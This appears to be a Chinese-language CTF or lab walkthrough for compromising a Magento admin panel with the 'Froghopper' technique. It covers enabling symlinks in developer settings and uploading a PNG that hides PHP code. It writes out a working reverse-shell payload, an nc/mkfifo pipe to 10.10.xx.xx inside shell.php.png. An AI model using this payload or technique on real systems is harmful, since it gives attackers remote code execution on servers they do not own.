 target要加index.php (帳密就是後面那兩個)
![image](https://hackmd.io/_uploads/SJHU3b_l0.png)

### get in web admin
拿得到的內容登入
![image](https://hackmd.io/_uploads/HkH3nbOlA.png)


### Froghopper

這裡要打進去需要用到一個技巧
叫做froghopper (因為攻擊者喜歡用pepe蛙的照片攻擊進去)
https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper
他特別的地方是你要去設定那裏開選項
其他就只是把php reverse shell丟進png裡面上傳上去
讓他執行而已
which means it's a RCE

> System -> Configuration (上方bar)
> Advanced –> Developer (左邊選單)
> Template Settings –> Allow Symlinks
> 修改為Yes，並且保存

圖1：
![螢幕擷取畫面 2024-04-25 111330](https://hackmd.io/_uploads/HyKO5BDbC.png)

圖2：
![螢幕擷取畫面 2024-04-25 111430](https://hackmd.io/_uploads/rJthcHDZR.png)

圖3：
![image](https://hackmd.io/_uploads/Hkd1jSDZ0.png)

![image](https://hackmd.io/_uploads/BJ5loSPW0.png)


### make an php reverse png

```
echo '<?php' >> shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1234 >/tmp/f");' >> shell.php.png
echo '?>' >> shell.php.png
```

![image](https://hackmd.io/_uploads/BJykTHwbR.png)


### 上傳的地方

> Catalog –> Manage Categories (上方bar)
> name -> test
> Is Actice -> Yes
> save Category
